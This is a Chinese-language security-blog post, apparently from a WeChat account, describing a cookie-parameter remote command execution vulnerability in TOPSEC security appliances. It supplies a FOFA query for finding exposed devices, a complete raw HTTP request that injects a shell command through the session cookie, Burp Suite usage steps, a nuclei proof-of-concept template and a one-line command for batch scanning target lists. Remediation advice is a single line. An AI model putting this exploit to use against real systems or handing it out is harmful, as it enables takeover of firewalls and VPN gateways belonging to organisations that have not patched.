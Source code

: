 #  天X信TOPSEC Cookie 远程命令执行漏洞   
不秃头的安全  不秃头的安全   2024-01-07 10:20  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fVY28ybNsfr9Riaxc0y93IXwic9Kxv0LpFzdUIFbchGWMicCV1I4OwLZqAteIpgyibgKe5XuBGostfDhw/640?wx_fmt=png&from=appmsg "")  
  
**天X信TOPSEC Cookie 远程命令执行漏洞**  
  
  
  
前言：本文中涉及到的相关技术或工具仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担，如有侵权请联系。  
  
由于微信公众号推送机制改变了，快来  
星标不再迷路，谢谢大家！  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fVY28ybNsfr9Riaxc0y93IXw76WJ8b9VW6YdH36D6T8J0bA0aqmn9PjlvcTQXL6s2ia8sHib601iaOSWg/640?wx_fmt=png&from=appmsg "")  
  
********  
**漏洞详情：******  
  
天融信TOPSEC解决方案包括综合管理系统，各类安全产品如防火墙、VPN、安全网关、宽带管理、入侵检测、内容过滤、个人安全套件以及综合安全审计系统等多种安全功能。该系统Cookie参数存在RCE漏洞，会导致服务器失陷。  
  
  
****  
**影响范围**  
  
****  
天融信TOPSEC  
  
  
**资产测绘**  
  
****```
title="Web User Login" && body="/cgi/maincgi.cgi?Url=VerifyCode"
```  
  
  
  
**漏洞利用**  
```
payload：

GET /cgi/maincgi.cgi?Url=aa HTTP/1.1
Host: X
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Cookie: session_id_443=1|echo 'nvgjngfszfzah1' > /www/htdocs/site/image/ecisas.txt;
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
  
**使用方法：**  
  
****1、使用浏览器访问目标系统，并使用BurpSuite进行拦截抓包；  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fVY28ybNsfr9Riaxc0y93IXwtJpVdPBOpXXauPynyxOiacVjsBvvgjxUTCDs829NHbZcib5ulIOjX7SA/640?wx_fmt=png&from=appmsg "")  
  
2、将BurpSuite拦截的GET请求包添加所需payload中cookie，并放包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fVY28ybNsfr9Riaxc0y93IXw3S0hKFKspEgaYtbdgM5E5JHlbXbFLyjxstcZ3YwpgzVNu8ObBWRPUg/640?wx_fmt=png&from=appmsg "")  
  
3、请求结果状态码返回为200访问设置的回显地址  
```
http://0.0.0.0/site/image/123123.txt
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fVY28ybNsfr9Riaxc0y93IXwRTVGQaEuR6Lj9PbibXnlXRBjIewkR5BXcrphvia17rN33HLABLHAVd6w/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
****  
  
**漏洞修复建议**  
  
查看官网厂商信息  
  
  
  
  
  
  
  
  
nuclei poc  
```
info:
  name: 天融信TOPSEC Cookie 远程命令执行漏洞
  author: fgz
  severity: critical
  description: 天融信TOPSEC解决方案包括综合管理系统，各类安全产品如防火墙、VPN、安全网关、宽带管理、入侵检测、内容过滤、个人安全套件以及综合安全审计系统等多种安全功能。该系统Cookie参数存在RCE漏洞，会导致服务器失陷。
  metadata:
    max-request: 1
    fofa-query: title="Web User Login" && body="/cgi/maincgi.cgi?Url=VerifyCode"
    verified: true
variables:
  file_name: "{{to_lower(rand_text_alpha(6))}}"
  file_content: "{{to_lower(rand_text_alpha(15))}}"
requests:
  - raw:
      - |+
        GET /cgi/maincgi.cgi?Url=aa HTTP/1.1
        Host: {{Hostname}}
        Cookie: session_id_443=1|echo '{{file_content}}' > /www/htdocs/site/image/{{file_name}}.txt;
        User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36

      - |
        GET /site/image/{{file_name}}.txt HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36

    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200 && status_code_2 == 200 && contains(body_2, '{{file_content}}')"
```  
  
批量使用方法  
```
nuclei -t topsec-maincgi-cookie-rce.yaml -l url.txt
```  
  
  
  
  
  
感谢各位大佬们关注-不秃头的安全，后续会坚持更新渗透漏洞思路分享、安全测试、好用工具分享以及挖掘SRC思路等文章，同时会组织不定期抽奖，希望能得到各位的关注与支持。  
  
  
  
  
